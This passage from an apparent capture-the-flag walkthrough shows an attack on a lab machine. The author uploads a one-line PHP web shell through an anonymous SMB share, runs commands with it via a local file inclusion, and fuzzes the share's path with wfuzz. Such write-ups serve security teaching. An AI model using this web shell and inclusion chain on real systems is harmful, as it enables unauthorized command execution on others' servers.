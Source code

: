 ### Webshell

I want to use this LFI to include a webshell so I can run commands. I’ll use my smb access to drop a simple php command shell into the Development share, which `nmap` told me was `/etc/Development`.

```

root@kali# cat cmd.php 
<?php system($_REQUEST['cmd']); ?>

root@kali# smbclient -N //10.10.10.123/Development -c 'put cmd.php 0xdf.php'
putting file cmd.php as \0xdf.php (0.6 kb/s) (average 0.6 kb/s)

```

Now, on visiting `https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/0xdf&cmd=id`, I get output:

![1549992654973](https://0xdfimages.gitlab.io/img/1549992654973.png)

Even if I had not known where the directory was on disk, I could have made some guesses and got it with fuzzing. For example, I’ll assuming the share is a folder named `Development`. I’ll start that it’s likely in the root or one level up. So I’ll make a word list from my box:

```

root@kali# ls -d /* > root_dirs 
root@kali# echo "/" >> root_dirs

```

Then I can `wfuzz` with the following url: `https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id`. I’ll use `../` to move up three levels presumably to the system root, and then `FUZZ` to try each directory (including `/`), and then `Development/0xdf`. I’ll add the `cmd=id` parameter to give some output to look for. With no output, `wfuzz` reports 0 lines. I’ll hide that with `--hl 0`. It finds the directory in `/etc`:

```

root@kali# wfuzz --hl 0 -c -w ./root_dirs -H 'Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1' 'https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id'
********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id
Total requests: 27

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000004:  C=200      1 L       40 W          403 Ch        "/etc"

Total time: 0.315563
Processed Requests: 27
Filtered Requests: 26
Requests/sec.: 85.56111

```
